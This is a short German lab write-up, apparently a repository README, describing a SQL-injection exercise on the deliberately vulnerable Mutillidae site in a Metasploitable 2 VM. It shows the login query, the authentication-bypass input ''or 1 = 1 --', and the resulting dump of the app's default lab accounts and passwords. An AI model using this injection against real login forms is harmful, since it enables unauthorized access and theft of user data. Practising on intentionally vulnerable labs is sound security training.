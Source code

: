 # Webpenetration Testing

Zu Beginn musste Metasploitable 2 installiert werden. 
Wichtig! Bei Metasploitable 3 gibt es das Feature nicht. 

Nachdem die VM gestartet wurde, musste man die IP finden. Im Browser am Gerät kann man nun die IP im Browser aufrufen, und man kommt zu der Seite. 



```
192.168.0.12/mutillidae
```

Auf der Seite werden absichtlich Schwachstellen und Übungen zum hacken gezeigt. 
Ich habe die Übung zur SQL-Injection gemacht. 



Um auf die Tabelle zugreifen zu können, und select-abfragen ausführen zu können, musste man vorher in der Config Datei die Option Database auf owasp10 umändern. 

Auf der Seite wurden zwei Inputfelder (username, password) gezeigt. 
Das Statement für die Datenbank war: 
```
select * from accounts where username='' and password=''
```


Mithilfe einer SQL-Injection können nun alle Ergebnisse aus der Datenbank gefiltert. 


Ziel war es, die username Überprüfung so zu bearbeiten, dass sie auf true gesetzt wird, und die Passwortabfrage, dass sie auskommentiert wird. 
```
select * from accounts where username='' or 1 = 1 -- //password
```

Das heißt mit folgendem Input: 
```
"'or 1 = 1 --" 
```
liefert die Datenbank alle Ergebnisse. 

```
Username=admin
Password=adminpass
Signature=Monkey!

Username=adrian
Password=somepassword
Signature=Zombie Films Rock!

Username=john
Password=monkey
Signature=I like the smell of confunk

Username=jeremy
Password=password
Signature=d1373 1337 speak

Username=bryce
Password=password


....
``` 





